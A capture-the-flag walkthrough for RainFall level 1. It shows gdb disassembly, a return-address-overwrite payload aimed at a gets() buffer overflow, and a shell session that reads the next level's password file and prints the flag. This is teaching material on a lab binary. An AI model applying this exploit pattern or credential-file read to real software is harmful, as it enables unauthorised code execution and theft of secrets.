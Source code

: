 # Level 1 - Buffer Overflow

## Vulnerability
Classic buffer overflow using `gets()` function.

## Analysis

### Buffer Size Calculation
```bash
(gdb) disas main
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50        # 80 bytes allocated
```

Stack layout:
- 76 bytes for buffer
- 4 bytes for saved EBP
- 4 bytes for return address

### Finding the run() Function
```bash
(gdb) info functions
0x08048444  run

(gdb) disas run
   0x08048444 <+0>:     push   ebp
   ...
   0x0804845d <+25>:    call   0x8048360 <system@plt>
```

## Exploitation

### Step 1: Calculate Offset
Buffer + EBP = 76 + 4 = 80 bytes

### Step 2: Craft Payload
```python
# Python payload
padding = "A" * 76
ebp = "BBBB"
ret_addr = "\x44\x84\x04\x08"  # Address of run() in little-endian

payload = padding + ebp + ret_addr
```

### Step 3: Execute
```bash
level1@RainFall:~$ (python -c 'print "A"*76 + "BBBB" + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Key Concepts
- Buffer overflow
- Return address overwrite
- gets() vulnerability
- Little-endian format